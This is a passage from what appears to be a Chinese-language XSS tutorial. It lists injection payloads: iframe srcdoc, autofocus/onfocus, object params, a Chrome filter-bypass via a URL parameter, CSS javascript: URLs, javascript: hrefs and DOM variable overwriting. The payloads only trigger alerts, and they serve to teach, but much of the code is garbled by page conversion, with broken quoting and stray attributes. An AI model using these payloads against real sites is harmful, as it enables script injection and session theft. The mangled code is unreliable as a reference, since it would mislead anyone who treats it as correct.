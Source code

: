 ```
<iframe srcdoc="<lt;script<gt;alert(" barret李靖")<lt;="" script<gt;"=""></iframe>

```

<p>2）autofoucus</p>

```
<input onfocus="write(1)" autofocus>

```

<p>3）object</p>

```
<object classid="clsid:333c7bc4-460f-11d0-bc04-0080c7055a83">
    <param name="dataurl" value="javascript:alert(" barret李靖")"="">
</object>

```

<p><strong>11.绕过浏览器过滤（crhome）</strong></p>

```
?t="><img src="1" onerror="alert("Barret李靖")">
<input type="hidden" id="sClientUin" value="">

```

<p>浏览器会过滤onerror中的代码，所以换种方式注入</p>

```
?t="><script src="data:text/html,<script>alert(" barret李靖")<="" script=""><!--

```
</script>
<p>chrome拦截，是有一定的拦截规则的，只有它觉得是恶意代码的才会去拦截。</p>
<p><strong>12.替换URL</strong></p>

```
<xss>
<style>.xss{background-image:url("javascript:alert('xss')");}</style><a class="xss"></a>
<style type="text/css">body{background:url("javascript:alert('xss')")}</style>

```
</xss>
<p><strong>13.抓包、换包</strong></p>


<h3>三、XSS攻击方式</h3>
<p><strong>1. javascript:和vbscript:协议执行后的结果将会映射在DOM</strong>后面。</p>

```
<a href="javascript:'\x3cimg src\x3dx onerror=alert(" barret李靖")="">'">click me</a>

```

<p><strong>2. 变量覆盖</strong></p>

```
<form id="location" href="bar">
<script>alert(location.href)</script>

```
</form>
<p><strong>3. meta标签</strong></p>
